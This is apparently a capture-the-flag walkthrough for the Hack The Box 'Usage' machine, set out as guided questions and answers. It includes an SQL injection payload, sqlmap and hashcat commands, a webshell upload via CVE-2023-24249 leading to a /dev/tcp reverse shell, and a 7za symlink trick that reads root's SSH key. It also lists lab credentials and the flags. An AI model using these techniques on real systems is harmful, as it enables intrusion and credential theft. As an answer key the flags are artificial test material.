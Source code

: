 ## Guided:
**Q:** How many open TCP ports are listening on Usage?<br>
**A:** 2

**Q:** What domain name is a subdomain of usage.htb that returns a different page than the default redirect to usage.htb?<br>
**A:** admin.usage.htb

**Q:** What PHP web framework is the website written with?<br>
**A:** laravel <br>
> `Whatweb hints it`

**Q:** What is the HTTP POST parameter that is vulnerable to SQL injection?<br>
**A:** email (From the "reset password")
> Note: specificly this payload worked for me <br> `admin' or 1=1;-- -`
> and sqlmap did the rest with the request file,<br>
> `python3 sqlmap.py -r ~/HTB/Usage/req -p email --dbs --batch --level 3 --threads=10` <br>

**Q:** How many tables are in the usage_blog database?<br>
**A:** 15
> `python3 sqlmap.py -r ~/HTB/Usage/req -p email -D usage_blog --tables --batch --level 3 --threads=10`

**Q:** What is the admin user's password to the admin website?<br>
**A:** whatever1
> Note: cracked the pass i got from mysql, it was `bcrypt $2*$, Blowfish (Unix)` <br>
> `hashcat -m 3200 -a 0 <pass file> -w <wordlist>` <br>
> `$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1`

**Q:** What PHP package is responsible for the admin panel?<br>
**A:** laravel-admin<br>
> (it was the only one in the dashboard with version without `^`)

**Q:** What is the 2023 CVE ID for an arbitrary file upload vulnerability that leads to remote code execution in this version of Laravel-Admin?<br>
**A:** CVE-2023-24249<br>
> Note: all was needed is to upload an webshell as img,example 'img.jpg',<br> intercept it with burp and add .php to the ending of the file name,<br> base64 encode /dev/tcp and let it return back to me.<br> 
> [Hint](https://flyd.uk/post/cve-2023-24249/) <br>
> Also found db creds:<br>
> DB_USERNAME=staff <br>
> DB_PASSWORD=s3cr3t_c0d3d_1uth

**Q:** What user is the webserver running as on Usage?<br>
**A:** dash

**Q:** Submit the flag located in the dash user's home directory.<br>
**A:** d9c8a6560b30788db2cb18c7530c5c97

**Q:** What is the xander user's password on Usage?<br>
**A:** 3nc0d3d_pa$$w0rd<br>
> Found in a hidden file in home directory, named `.monitrc`

**Q:** What is the full path of the file that xander can run as any user without a password on Usage?<br>
**A:** /usr/bin/usage_management

**Q:** Which option in usage_management invokes 7Zip?<br>
**A:** 1
> `strings /usr/bin/usage_management`

**Q:** What is the full command line for 7Zip when it is invoked by usage_management?
**A:** /usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
> Note: it created a backup on the dir /var/www/html,<br> had to make a link file to root's ssh.<br>
> `touch @id_rsa` ((also referred to as a listfile) tells 7zip that id_rsa contains a list of files to be compressed)<br>
> `ln -s /root/.ssh/id_rsa id_rsa` 7za will read the content of the ssh key instead of backup. (not sure why)

**Q:** What is the full path to the root user's private SSH key?`<br>
**A:** /root/.ssh/id_rsa

**Q:** Submit the flag located in the root user's home directory.
**A:** 2b28cc49318e6a9ac83f0f936f3ac07b

